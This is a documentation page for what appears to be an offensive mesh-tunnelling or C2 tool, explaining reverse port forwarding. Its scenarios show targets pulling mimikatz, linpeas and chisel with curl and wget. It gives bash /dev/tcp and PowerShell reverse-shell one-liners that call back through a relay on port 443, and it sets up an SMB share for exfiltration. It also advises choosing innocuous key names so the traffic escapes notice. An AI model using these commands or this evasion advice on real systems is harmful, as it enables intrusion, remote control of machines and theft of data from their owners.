

# Port Forwarding

Expose local services to remote parts of the network through the mesh.

## Overview

Port forwarding creates **reverse tunnels** through the mesh network. Unlike SOCKS5 which routes outbound traffic (you reaching remote destinations), port forwarding routes inbound traffic (remote machines reaching your services).

**Primary use case**: Distribute tools, receive callbacks, or expose services without direct network connectivity.



## Quick Reference

| Component | Configuration | Location |
|-----------|---------------|----------|
| Endpoint | `forward.endpoints` | Agent with access to your service |
| Listener | `forward.listeners` | Agents where remote clients connect |
| Routing Key | String (e.g., "my-tools") | Must match on both sides |

## Configuration

### Endpoint (Your Machine)

Configure on the agent that has access to your local service:

```yaml
forward:
  endpoints:
    - key: "tools"              # Routing key advertised to mesh
      target: "localhost:80"     # Your local service
```

### Listener (Remote Agents)

Configure on agents where remote clients will connect:

```yaml
forward:
  listeners:
    - key: "tools"              # Must match endpoint key
      address: ":8080"          # Port for incoming connections
      max_connections: 100      # Optional limit
```

### Options

**Endpoint options:**

| Option | Type | Description |
|--------|------|-------------|
| `key` | string | Routing key advertised to mesh |
| `target` | string | Local service address (host:port) |

**Listener options:**

| Option | Type | Default | Description |
|--------|------|---------|-------------|
| `key` | string | - | Routing key to look up |
| `address` | string | - | Bind address (host:port or :port) |
| `max_connections` | int | 0 | Max connections (0 = unlimited) |

## Operational Scenarios

### Scenario 1: Tool Distribution

Serve tools from your machine to targets throughout the network.

**Setup:**

```yaml
# operator-agent.yaml - your machine
forward:
  endpoints:
    - key: "op-tools"
      target: "localhost:8000"
```

```bash
# Start HTTP server serving your tools directory
python3 -m http.server 8000 --directory ./tools
```

```yaml
# field-agent.yaml - deployed agents
forward:
  listeners:
    - key: "op-tools"
      address: "127.0.0.1:8080"
```

**Usage from target machine:**

```bash
# Download tools via nearest field agent
curl http://field-agent:8080/linpeas.sh -o /tmp/lp.sh
curl http://field-agent:8080/mimikatz.exe -o mimi.exe
wget http://field-agent:8080/chisel_linux_amd64
```

### Scenario 2: C2 Callback Receiver

Receive reverse shells or C2 callbacks through the mesh.

**Setup:**

```yaml
# operator-agent.yaml
forward:
  endpoints:
    - key: "callback-443"
      target: "localhost:4444"
```

```bash
# Start netcat listener
nc -lvnp 4444
```

```yaml
# perimeter-agent.yaml - agent exposed to target network
forward:
  listeners:
    - key: "callback-443"
      address: "0.0.0.0:443"   # Exposed on standard HTTPS port
```

**Usage from target:**

```bash
# Reverse shell - appears to connect to perimeter agent
bash -i >& /dev/tcp/perimeter-agent/443 0>&1

# Or PowerShell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('perimeter-agent',443);..."
```

The callback traverses the mesh to your local listener.

### Scenario 3: Multiple Services

Expose several services through different routing keys:

```yaml
# operator-agent.yaml
forward:
  endpoints:
    - key: "http-tools"
      target: "localhost:80"      # Web server with tools
    - key: "smb-loot"
      target: "localhost:445"     # SMB share for exfil
    - key: "callback-4444"
      target: "localhost:4444"    # Callback receiver
```

```yaml
# field agents - expose all services
forward:
  listeners:
    - key: "http-tools"
      address: ":8080"
    - key: "smb-loot"
      address: ":445"
    - key: "callback-4444"
      address: ":443"
```

## Comparison with SOCKS5

| Feature | SOCKS5 Proxy | Port Forwarding |
|---------|--------------|-----------------|
| Traffic direction | Outbound (you -> remote) | Inbound (remote -> you) |
| DNS resolution | At ingress or exit | N/A (TCP relay) |
| Authentication | Username/password | None (routing key only) |
| Use case | Access internal networks | Serve tools, receive callbacks |
| Client protocol | SOCKS5 | Plain TCP |
| Configuration | `socks5` + `exit` | `forward` |

## Operational Considerations

### Routing Key Selection

- Use descriptive but non-obvious names
- Avoid: "c2", "shell", "hack", "payload"
- Prefer: "tools", "sync", "backup", "api"
- Keys are case-sensitive

### Listener Binding

- Use `127.0.0.1` (localhost) when only local access needed
- Use `0.0.0.0` when network access required
- Consider firewall rules on listener ports

### Multiple Listeners

Deploy same key on multiple agents for redundancy:

```yaml
# Agent A                    # Agent B
forward:                     forward:
  listeners:                   listeners:
    - key: "tools"               - key: "tools"
      address: ":8080"             address: ":8080"
```

Clients connect to whichever agent is nearest/reachable.

### Connection Limits

Set limits to prevent resource exhaustion:

```yaml
forward:
  listeners:
    - key: "tools"
      address: ":8080"
      max_connections: 50    # Limit concurrent connections
```

## Troubleshooting

### Route Not Appearing

Check route propagation:

```bash
# View forward routes
curl http://localhost:8080/healthz | jq '.forward_routes'

# Trigger immediate advertisement on endpoint agent
curl -X POST http://localhost:8080/routes/advertise
```

### Connection Fails

1. Verify target service is running:
   ```bash
   netstat -tlnp | grep <port>
   ss -tlnp | grep <port>
   ```

2. Check endpoint agent connectivity to mesh

3. Verify routing key matches exactly (case-sensitive)

4. Check connection limits on listener

### Listener Bind Failed

Port already in use:

```bash
# Find conflicting process
lsof -i :<port>
ss -tlnp | grep :<port>
```

## Security Notes

- Each connection gets E2E encryption (X25519 + ChaCha20-Poly1305)
- Transit agents cannot decrypt forwarded traffic
- Only configured routing keys are accepted
- No CLI commands exist (configuration-only for OPSEC)
